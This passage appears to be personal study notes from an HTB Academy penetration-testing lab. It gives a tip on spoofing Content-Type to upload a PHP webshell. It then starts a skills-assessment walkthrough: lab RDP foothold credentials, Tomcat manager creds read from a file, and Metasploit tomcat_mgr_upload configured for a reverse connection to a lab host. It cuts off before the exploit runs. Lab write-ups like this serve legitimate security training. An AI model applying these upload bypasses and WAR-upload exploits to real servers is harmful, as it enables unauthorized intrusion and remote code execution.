   * for bypass, we can intercept the webshell upload request and modify fields like ```Content-Type``` from 'application/x-php' to 'image/gif'

  * we can then navigate to the uploads directory and execute commands from the web shell

## Skills Assessment

* We have been given a foothold connection:

  ```sh
  xfreerdp /v:10.129.204.126 /u:htb-student /p:"HTB_@cademy_stdnt!"
  ```

* We have 3 hosts to enumerate in the internal network 172.16.1.0/23:

  * host-01 - 172.16.1.11:8080
  * host-02 - blog.inlanefreight.local
  * host-03 - 172.16.1.13

* Once we have access to the foothold machine 'skills-foothold', we can start by enumerating host-01:

  ```sh
  curl http://172.16.1.11:8080
  # gives us a page for Tomcat
  # we can see the version Apache Tomcat/10.0.11

  firefox
  # view the page in browser

  # we have a file in Desktop
  cat Desktop/access-creds.txt
  # this gives us two creds
  # admin:admin123!@# - for blog
  # tomcat:Tomcatadm - for tomcat

  # using these creds, we can login
  # to Tomcat app manager

  # in the app manager, we have an upload option
  # for WAR files

  ip a s
  # shows our IP in internal network 172.16.1.5/23

  # we can now use metasploit modules for WAR file upload exploit
  # or craft and upload manually

  # trying automated first
  msfconsole -q

  search tomcat

  use exploit/multi/http/tomcat_mgr_upload

  options

  set LHOST 172.16.1.5

  set HttpPassword Tomcatadm

  set HttpUsername tomcat

  set RHOSTS 172.16.1.11

  set RPORT 8080

  ```